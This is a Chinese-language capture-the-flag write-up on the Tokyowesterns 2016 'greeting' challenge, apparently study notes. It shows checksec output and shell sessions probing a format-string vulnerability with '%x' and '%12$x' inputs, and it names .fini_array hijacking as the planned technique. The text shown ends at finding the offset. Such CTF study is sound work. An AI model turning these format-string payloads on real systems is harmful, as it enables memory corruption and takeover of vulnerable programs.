 
# 考察点
- 格式化字符串漏洞进行任意地址写入
- 终止节`.fini_array`的特殊性。在 main 退出时，会执行，对其进行修改，可以劫持程序流，实现可控 loop back


# 分析

```shell
┌──(pitta㉿kali)-[~/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting]
└─$ checksec ./greeting                     
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/pitta/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting/greeting'
    Arch:       i386-32-little
    RELRO:      No RELRO    
    Stack:      Canary found    # overwrite ret addr 需要先把 canary leak 出来
    NX:         NX enabled      # 栈上不给执行，那就 ret2libc
    PIE:        No PIE (0x8048000)
    Stripped:   No
┌──(pitta㉿kali)-[~/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting]
└─$ file ./greeting 
./greeting: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=beb85611dbf6f1f3a943cecd99726e5e35065a63, not stripped    
┌──(pitta㉿kali)-[~/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting]
└─$ ./greeting 
Hello, I'm nao!
Please tell me your name... 
Don't ignore me ;( 
                                                                                   
┌──(pitta㉿kali)-[~/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting]
└─$ ./greeting
Hello, I'm nao!
Please tell me your name... Vict0ry
Nice to meet you, Vict0ry :)

┌──(pitta㉿kali)-[~/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting]
└─$ ./greeting
Hello, I'm nao!
Please tell me your name... AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Nice to meet you, AAAA.80487d0.fff1ecfc.a2783852.6400.f7f61a30.fffffba8.6563694e.206f7420.7465656d.756f7920.4141202c.252e4141.78252e78.2e78252e.252e7825.78252e78 :)

# fmt string 偏移为 12，内容为：4141202c。有两字节内容不一致，填充两字节在测试
┌──(pitta㉿kali)-[~/workspace/pwn_learn/rec0rd/Tokyowesterns 2016 greeting]
└─$ ./greeting                     
Hello, I'm nao!
Please tell me your name... TTAAAA.%12$x
Nice to meet you, TTAAAA.41414141 :)
```
